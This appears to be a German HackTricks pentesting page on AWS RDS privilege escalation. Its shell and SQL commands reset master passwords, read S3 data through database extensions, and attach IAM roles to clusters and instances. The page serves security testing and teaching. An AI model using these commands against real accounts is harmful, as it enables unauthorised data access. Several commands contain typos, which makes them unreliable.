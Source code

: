 # AWS - RDS Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## RDS - Relationale Datenbankdienste

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer das **Passwort des Master-Benutzers ändern** und sich in der Datenbank anmelden:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **eine Verbindung zur Datenbank herzustellen** (normalerweise nur aus internen Netzwerken erreichbar).
{% endhint %}

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Gemäß der [**Dokumentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kann ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS-Postgresql-Datenbank** befinden.
{% endhint %}

Zunächst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie die installierten Erweiterungen betrachten:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt auch andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Außerdem, wenn Sie Berechtigungen haben, um **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob dem **Cluster eine IAM-Rolle zugeordnet ist** im Feld **`AssociatedRoles`**. Falls ja, können Sie davon ausgehen, dass die Datenbank **für den Zugriff auf andere AWS-Services vorbereitet wurde**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können), könnten Sie **vermuten**, welchen zusätzlichen Zugriff die Datenbank hat.

Um nun eine **Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie lesen mit:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** haben, könnten Sie sie auch verwenden, um auf S3-Daten zuzugreifen:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
In einem mysql, wenn Sie die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.
{% endhint %}

Führen Sie im mysql **`show variables;`** aus und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank darauf vorbereitet ist, auf S3-Daten zuzugreifen.

Außerdem, wenn Sie Berechtigungen haben, um **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **zugeordnete Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet).

Um **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie mit:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer vorhandenen RDS-Instanz hinzufügen**. Dies könnte es dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu modifizieren.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie z. B. Mysql, bei dem die Rollen-ARN in den Parametergruppen angegeben werden müssen.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, die über eine **IAM-Rolle** verfügt. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte die neue Datenbankinstanz möglicherweise dem Internet aussetzen:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer spezifischen Rolle erstellen**, die angehängt ist. Der Angreifer kann dann potenziell auf **sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen an die Rolle/das Instanzprofil, die angehängt werden müssen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die von Amazon EC2 angenommen werden darf.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder nicht autorisierte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer vorhandenen RDS-Instanz hinzufügen**. Dies könnte es dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss außerhalb eines Clusters liegen, damit dies funktioniert.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

